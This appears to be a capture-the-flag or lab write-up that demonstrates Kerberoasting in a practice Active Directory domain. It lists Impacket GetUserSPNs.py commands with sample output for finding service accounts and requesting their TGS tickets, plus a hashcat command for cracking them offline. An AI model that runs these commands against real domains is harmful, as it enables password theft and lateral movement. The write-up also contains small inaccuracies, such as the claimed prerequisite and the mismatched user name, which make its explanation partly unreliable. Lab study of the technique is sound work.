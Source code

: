 **Kerberoasting**

Kerberoasting is a common AD attack to obtain AD tickets that helps with persistence. In order for this attack to work, an adversary must have access to **SPN (Service Principal Name)** accounts such as IIS User, MSSQL, etc. The Kerberoasting attack involves requesting a Ticket Granting Ticket (**TGT**) and Ticket Granting Service (**TGS**). This attack's end goal is to enable privilege escalation and lateral network movement.

Let's do a quick demo about the attack. First, we need to find an SPN account(s) using ```GetUserSPNs.py``` script:
```
GetUserSPNs.py -dc-ip <DomainController_IP> <domain>/<username>
```
**ex**:
```
GetUserSPNs.py -dc-ip 10.10.73.127 THM.red/thm
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578  
```
We see a service running and ```svc-user``` is the user running it.<br>
we can send a request to get a **TGS** ticket for the ```srv-user``` user using the ```-request-user``` argument:
```
GetUserSPNs.py -dc-ip 10.10.73.127 THM.red/thm -request-user svc-user
```
**Crack the TGS**

If we got the sevice TGS we could crack it to dump the password using ```hashcat```

```
hashcat -m 13100 hashes.txt /path/to/wordlist.txt
```






























